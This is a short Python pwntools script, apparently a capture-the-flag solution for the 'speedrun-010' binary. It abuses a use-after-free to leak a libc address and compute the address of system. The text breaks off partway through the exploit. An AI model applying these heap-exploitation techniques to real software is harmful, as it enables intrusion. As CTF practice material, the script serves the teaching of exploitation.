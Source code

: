 ## Code

```python
from pwn import process, p64, u64, ELF


def _select(s, sel, c="1, 2, 3, 4, or 5\n"):
    s.recvuntil(c)
    s.send(sel)


def set_p1(s, data=b"junk"):
    _select(s, b"1")
    s.recvuntil(b"Need a name\n")
    s.send(data)


# show p1_list[count_1]
def set_p2(s, data=b"junk"):
    _select(s, b"2")
    s.recvuntil(b"Need a message\n")
    s.send(data)


# free p1_list[count_1]
def free_p1(s):
    _select(s, b"3")


# free p2_list[count_2] & count_2 -= 1
def free_p2(s):
    _select(s, b"4")


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        ptr1: double free 可能, UAF(0x8以降の読み取りのみ)
    """
    s = process("./speedrun-010")
    elf = ELF("./speedrun-010")
    libc = ELF("./libc-2.27.so")
    puts_libc = libc.symbols["puts"]
    system_libc = libc.symbols["system"]

    # count = (1, 0)
    set_p1(s)
    free_p1(s)
    junk = b"junkjunkjunkjunk"
    # count = (1, 1)
    set_p2(s, junk)
    s.recvuntil(junk)
    libc_base = u64(s.recv(6).ljust(8, b"\x00")) - puts_libc
    print(hex(libc_base))

    system_addr = libc_base + system_libc
    # count = (2, 1)
```